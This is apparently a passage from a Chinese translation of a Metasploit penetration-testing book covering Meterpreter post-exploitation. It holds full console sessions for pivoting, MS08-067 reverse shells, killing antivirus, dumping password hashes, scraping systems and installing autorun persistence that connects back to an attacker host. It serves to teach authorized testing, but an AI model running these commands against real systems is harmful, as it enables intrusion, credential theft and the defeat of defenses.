[*] Bound to 12345778-1234-abcd-ef00-0123
456789ab:0.0@ncacn_np:192.168.33.132[\lsarpc] ...
[*] Calling the vulnerable function...
[*] Sending stage (36 bytes)
[*] Command shell session 1 opened (10.10.1.129:8080 -> 192.168.33.132:1608) 
```

将`LHOST`和`RHOST`变量与`ifconfig`显示的网络信息进行比较。我们的`LHOST`选项指定了攻击机的 IP 地址。注意，`RHOST`选项的 IP 地址被设置为不同的网络子网，并且我们通过将流量通过受入侵的目标隧道传输到目标网络上的其他系统来攻击系统。我们正在利用 Metasploit 中的跳板攻击，通过被利用的机器将通信传递到位于本地子网上的目标机器。在这种情况下，如果堆溢出成功，我们应该通过利用已入侵机器的网络通信获得来自 192.168.33.132 的反向 shell。当我们使用`exploit`运行漏洞利用时，我们在处看到，如预期的那样，在另一台机器上建立了连接。现在，为了通过跳板进行端口扫描，我们将使用*scanner/portscan/tcp*扫描器模块，该模块被构建来处理通过 Metasploit 的路由。

* * *

### 注意

您还可以使用*scanner/portscan/tcp*扫描器在本地子网上对受入侵的目标进行一系列端口扫描。这里我们不会详细介绍，但只需知道您可以通过此模块在受入侵的网络上进行端口扫描。

* * *

在前面的示例中，我们在系统被入侵后使用了`route add`命令。或者，为了在新的会话启动时自动将路由添加到 Meterpreter 中，我们可以使用`load auto_add_route`：

```
msf exploit(ms08_067_netapi) > `load auto_add_route`
[*] Successfully loaded plugin: auto_add_route

msf exploit(ms08_067_netapi) > `exploit`
[*] Started reverse handler on 10.10.1.129:443
[*] Triggering the vulnerability...
[*] Sending stage (748032 bytes)
[*] Meterpreter session 1 opened (10.10.1.129:443 -> 192.168.33.130:1090)
[*] AutoAddRoute: Routing new subnet 192.168.33.0/255.255.255.0 through session 1
```

## 使用 Meterpreter 脚本

几个外部的 Meterpreter 脚本可以帮助您枚举系统或在 Meterpreter 外壳中执行预定义的任务。这里我们不会涵盖每个脚本，但会提到一些最显著的脚本。

* * *

### 注意

Meterpreter 脚本正在被转移到后利用模块中。在本章中，我们将涵盖脚本和后利用模块。

* * *

要从 Meterpreter 控制台运行脚本，请输入**`run`***`scriptname`*。脚本将执行或提供有关如何运行的额外帮助。

如果您想在系统上使用交互式远程 GUI，您可以使用 VNC 协议隧道活动桌面通信，并与目标机器上的 GUI 桌面进行交互。但在某些情况下，系统可能被锁定，您可能无法访问它。不要担心：Metasploit 已经为我们解决了这个问题。

在以下示例中，我们发出`run vnc`命令，该命令在远程系统上安装一个 VNC 会话。从那里，我们启动`run screen_unlock`来解锁目标机器，以便我们可以查看桌面。结果，应该会出现一个 VNC 窗口，显示目标桌面。

```
meterpreter > `run vnc`
[*] Creating a VNC reverse tcp stager: LHOST=192.168.33.129 LPORT=4545)
[*] Running payload handler
[*] VNC stager executable 37888 bytes long
[*] Uploaded the VNC agent to C:\WINDOWS\TEMP\CTDWtQC.exe (must be deleted manually)
[*] Executing the VNC agent with endpoint 192.168.33.129:4545...
[*] VNC Server session 2 opened (192.168.33.129:4545 -> 192.168.33.130:1091)
```

这将为我们提供目标机器的 VNC 图形界面，并允许我们通过桌面进行交互。

```
meterpreter > `run screen_unlock`
[*] OS 'Windows XP (Build 2600, Service Pack 2).' found in known targets
[*] patching...
[*] done!
```

### 迁移进程

通常，当我们攻击一个系统并利用像 Internet Explorer 这样的服务时，如果目标用户关闭浏览器，Meterpreter 会话也会关闭，我们就会失去与目标的连接。为了避免这个问题，我们可以使用下面的*migrate*后利用模块，尝试将服务迁移到一个在目标关闭浏览器时不会关闭的内存空间。通过迁移到不同的、更稳定的进程，我们确保进程不会被关闭，并保持与系统的连接。

```
meterpreter > `run post/windows/manage/migrate`
[*] Running module against V-MAC-XP
[*] Current server process: revterp.exe (2436)
[*] Migrating to explorer.exe...
[*] Migrating into process ID 816
[*] New server process: Explorer.EXE (816)
```

### 杀死抗病毒软件

抗病毒软件可以阻止某些任务。在渗透测试中，我们见过“更智能”的抗病毒软件或基于主机的入侵预防产品阻止我们运行某些攻击向量。在这种情况下，我们可以运行`killav`脚本来停止阻止我们任务运行的过程。

```
meterpreter > `run killav`
[*] Killing Antivirus services on the target...
[*] Killing off cmd.exe...
[*] Killing off cmd.exe...
```

### 获取系统密码散列

获取系统密码散列的副本允许我们运行传递散列攻击或暴力破解散列以揭示明文密码。我们可以使用`run hashdump`命令来获取密码散列：

```
meterpreter > `run hashdump`
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY de4b35306c5f595438a2f78f768772d2...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
```

### 查看目标机器上的所有流量

要查看目标上的所有流量，我们可以运行数据包记录器。`packetrecorder`捕获的所有内容都保存为*.pcap*文件格式，以便使用 Wireshark 等工具进行解析。

在此列表中，我们使用`-i 1`选项运行`packetrecorder`脚本，该选项指定我们想要用于执行数据包捕获的接口：

```
meterpreter > `run packetrecorder -i 1`
[*] Starting Packet capture on interface 1
[*] Packet capture started
```

### 爬取系统

`scraper`脚本几乎可以获取系统上您可能需要的所有内容。它将抓取用户名和密码，下载整个注册表，转储密码散列，收集系统信息，并导出`HKEY_CURRENT_USER`（`HKCU`）。

```
meterpreter > `run scraper`
[*] New session on 192.168.33.130:1095...
[*] Gathering basic system information...
[*] Dumping password hashes...
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU (C:\WINDOWS\TEMP\XklepHOU.reg)
```

### 使用持久性

Meterpreter 的`persistence`脚本允许您注入 Meterpreter 代理，以确保即使在目标系统重启后，Meterpreter 仍在运行。如果是反向连接，您可以为目标设置连接回攻击者机器的间隔。如果是绑定连接，您可以指定在给定时间尝试绑定到某个接口。

* * *

### 警告

如果您使用此功能，请确保在完成后将其删除。如果您忘记这样做，任何攻击者都可以未经身份验证就访问系统！

* * *

在下面的列表中，我们运行 `persistence` 并告诉 Windows 在启动时自动启动代理（`-X`），在连接重试前等待 50 秒（`-i 50`），在端口 443 上运行（`-p 443`），并连接到 IP 192.168.33.129。然后我们使用 `use multi/handler` 在  上为代理建立监听器，并在设置了一些选项并运行 `exploit` 之后，我们在  上看到连接正如预期的那样进入。

```
meterpreter > `run persistence -X -i 50 -p 443 -r 192.168.33.129`
[*] Creating a persistent agent: LHOST=192.168.33.129
 LPORT=443 (interval=50 onboot=true)
[*] Persistent agent script is 316384 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\asSnqrlUDRwO.vbs
[*] Agent executed with PID 3160
[*] Installing into autorun as HKLM\Software\Microsoft\Windows
\CurrentVersion\Run\xEYnaHedooc 
[*] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
    xEYnaHedooc
msf> `use multi/handler` 
msf exploit(handler) > `set payload windows/meterpreter/reverse_tcp`
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > `set LPORT 443`
LPORT => 443
msf exploit(handler) > `set LHOST 192.168.33.129`
LHOST => 192.168.33.129
msf exploit(handler) > `exploit`

[*] Started reverse handler on 192.168.33.129:443
[*] Starting the payload handler...
[*] Sending stage (748032 bytes)
[*] Meterpreter session 2 opened (192.168.33.129:443 -> 192.168.33.130:1120) 
```

到目前为止，删除 Meterpreter 代理的唯一方法是删除注册表项 *HKLM\Software\Microsoft\Windows\CurrentVersion\Run\* 和删除位于 *C:\WINDOWS\TEMP\* 的 VBScript。请务必记录注册表键和位置（例如 *HKLM\Software\Microsoft\Windows\CurrentVersion\Run\xEYnaHedooc* ) 以手动删除它们。通常，您可以通过 Meterpreter 或切换到 shell 并以这种方式删除它来完成此操作。如果您更习惯使用 GUI，可以使用 `run vnc` 并使用 *regedit* 删除脚本。（请注意，注册表键会每次更改，因此请确保您记录了 Metasploit 添加注册表键的位置。）

## 利用后利用模块

如前所述，Meterpreter 脚本正在逐渐转换为后利用模块。转向后利用模块最终将为 Metasploit 模块提供一个完全一致的标准和格式。在阅读后面的章节时，您将看到辅助模块和漏洞利用的总体结构。在过去，Meterpreter 脚本使用自己的格式，这与其他模块的行为方式非常不同。

将模块转移到相同格式的另一个好处是能够在所有可用的会话上执行相同的攻击。例如，假设您有 10 个打开的 Meterpreter shell。按照传统方式，您需要在每个上运行 `hashdump` 或编写自定义脚本来查询每个控制台。在新格式中，您将能够与每个会话交互，并在需要时在多个系统上执行 `hashdump`。

下面的列表展示了如何使用后利用模块的示例：

```
meterpreter > `run post/windows/gather/hashdump`
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY de4b35306c5f595438a2f78f768772d2...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...
```

要查看后利用模块的列表，请输入以下内容，然后在行尾按键盘上的制表键：

```
meterpreter > `run post/`
```

## 将您的命令 shell 升级到 Meterpreter

Metasploit 框架中较新的功能之一是，一旦系统被利用，可以通过发出`sessions -u`命令将命令 shell 有效载荷升级到 Meterpreter 有效载荷。如果我们使用命令 shell 有效载荷作为初始阶段，然后发现这个新被利用的系统将完美地成为进一步攻击网络的发射台，这将非常有用。让我们通过使用带有反向命令 shell 作为有效载荷的 MS08-067 从开始到结束的快速示例，并将其升级到 Meterpreter shell。

```
root@bt:/opt/framework3/msf3# `msfconsole`
msf > `search ms08_067`
[*] Searching loaded modules for pattern 'ms08_067'...

Exploits
========

   Name                         Rank   Description
   ----                         ----   -----------
   windows/smb/ms08_067_netapi  great  Microsoft Server Service Relative Path Stack
    Corruption

msf > `use windows/smb/ms08_067_netapi`
msf exploit(ms08_067_netapi) > `set PAYLOAD windows/shell/reverse_tcp`
payload => windows/shell/reverse_tcp
msf exploit(ms08_067_netapi) > `set TARGET 3`
target => 3
msf exploit(ms08_067_netapi) > `setg LHOST 192.168.33.129` 
LHOST => 192.168.33.129
msf exploit(ms08_067_netapi) > `setg LPORT 8080`
LPORT => 8080
msf exploit(ms08_067_netapi) > `exploit -z` 

[*] Started reverse handler on 192.168.33.129:8080
[*] Triggering the vulnerability...
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.33.129:8080 -> 192.168.33.130:1032)
[*] Session 1 created in the background.
msf exploit(ms08_067_netapi) > `sessions -u 1` 

[*] Started reverse handler on 192.168.33.129:8080
[*] Starting the payload handler...
[*] Command Stager progress - 3.16% done (1694/53587 bytes)
[*] Command Stager progress - 6.32% done (3388/53587 bytes)

`. . . SNIP . . .`

[*] Command Stager progress - 97.99% done (52510/53587 bytes)
[*] Sending stage (748032 bytes)
msf exploit(ms08_067_netapi) > [*] Meterpreter session 2
 opened (192.168.33.129:8080 ->
    192.168.33.130:1044)
msf exploit(ms08_067_netapi) > `sessions -i 2`
[*] Starting interaction with 2...
meterpreter >
```

在处，我们发出`setg`命令为`LHOST`和`LPORT`，这是在处升级到 Meterpreter 所必需的。（`setg`命令在 Metasploit 中全局设置`LPORT`和`LHOST`，而不仅仅是针对此利用。）

注意在处，当我们利用系统时，我们发出`exploit -z`命令，一旦目标被利用，它将不会与会话交互。如果你此时已经执行了`exploit`命令，你可以简单地按 ctrl-Z 并在后台运行会话。

## 使用 Railgun 附加组件操作 Windows API

你可以通过 Metasploit 的一个名为*Railgun*的附加组件直接与 Windows 原生 API 接口，这是由 Patrick HVE 编写的。通过将 Railgun 添加到 Metasploit 框架，你可以通过 Meterpreter 以原生方式调用 Windows API，这一切都通过 Windows API 完成。例如，在下面的列表中，我们将进入一个交互式 Ruby shell（`irb`），这是通过 Meterpreter 可用的。`irb` shell 允许我们通过基于 Ruby 的语法直接与 Meterpreter 交互。在这个例子中，我们调用 Railgun 并创建一个简单的弹出窗口，显示“hello world”。

```
meterpreter > `irb`
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>> client.railgun.user32.MessageBoxA(0,"hello","world","MB_OK")
```

在我们的目标 Windows XP 机器上，你应该看到一个标题栏上有*world*、信息框中有*hello*的弹出窗口。在这个例子中，我们只是调用了*user32.dll*和`MessageBoxA`函数，其参数如下所示。

* * *

### 注意

要查看所有已记录的 API 调用列表，请访问[`msdn.microsoft.com/`](http://msdn.microsoft.com/).

* * *

我们不会详细介绍 Railgun（你可以在框架目录下的*external/source/meterpreter/source/extensions/stdapi/server/railgun/*中找到一个教程，但这可以给你一个关于其功能的概念）。

其影响是巨大的：Railgun 为你提供了与原生 Win32 应用程序相同的性能，并完全访问 Windows API。

## 总结

希望你现在对 Meterpreter 已经很熟悉了。我们并没有介绍 Meterpreter 的每一个标志和选项，因为我们预期你在实验和使用过程中对 Meterpreter 的了解会不断增长。Meterpreter 是一个持续发展的工具，它为脚本和附加功能提供了巨大的支持。一旦你对整体界面感到舒适，你将能够掌握任何新的内容。在第十六章中，你将学习如何从头开始创建自己的 Meterpreter 脚本，以及 Meterpreter 脚本的整体结构是如何设计的。
